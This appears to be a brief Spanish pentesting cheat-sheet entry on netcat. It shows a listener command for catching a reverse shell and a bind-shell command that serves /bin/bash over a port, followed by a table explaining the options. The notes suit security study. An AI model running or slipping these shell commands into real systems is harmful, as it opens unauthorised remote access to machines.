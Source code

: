 #Enumeration #RedEnumeration 

### Reverse Shell
#### nc -nlvp 'puerto'

### Bind Shell
#### nc -nlvp 'puerto' -e /bin/bash 

| OPCIONES | FUNCION           | +Info |
| -------- | ----------------- | ----- |
| *-n*     | No resolución DNS |       |
| *-l*     | Modo escucha      |       |
| *-v*     | Verbose           |       |
| *-p*     | Puerto            |       |


